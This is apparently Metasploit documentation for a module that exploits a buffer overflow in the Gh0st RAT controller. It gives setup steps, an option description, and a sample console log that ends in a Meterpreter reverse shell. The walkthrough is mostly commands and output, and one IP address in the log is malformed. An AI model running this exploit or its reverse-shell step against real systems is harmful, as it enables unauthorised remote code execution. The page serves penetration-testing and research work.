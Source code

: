 ## Vulnerable Application

  This module exploits a buffer overflow in the Gh0st Controller when handling a drive list as received by a victim.
  This vulnerability can allow remote code execution in the context of the user who ran it.

  A vulnerable version of the software is available here: [gh0st 3.6](https://github.com/rapid7/metasploit-framework/files/1243297/0efd83a87d2f5359fae051517fdf4eed8972883507fbd3b5145c3757f085d14c.zip)

## Verification Steps

  1. Run the application
  2. Start msfconsole
  3. Do: `use exploit/windows/misc/gh0st`
  4. Do: `set rhost [ip]`
  5. Do: `exploit`
  6. Get a shell

## Options

  **MAGIC**

  This is the 5 character magic used by the server.  The default is `Gh0st`

## Scenarios

### Windows XP SP3 with gh0st 3.6

```
msf > use exploit/windows/misc/gh0st 
msf exploit(gh0st) > set rhost 192.168.2.108
rhost => 192.168.2.108
msf exploit(gh0st) > exploit

[*] Started reverse TCP handler on 1.2.3.4:4444 
[*] 1.2.3.1:80 - Trying target Gh0st Beta 3.6
[*] 1.2.3.1.108:80 - Spraying heap...
[*] 1.2.3.1:80 - Trying command 103...
[*] Sending stage (956991 bytes) to 1.2.3.1
[*] Meterpreter session 1 opened (1.2.3.4:4444 -> 1.2.3.1:1303) at 2017-08-26 16:53:58 -0400
[*] 1.2.3.1:80 - Server closed connection

meterpreter >
```
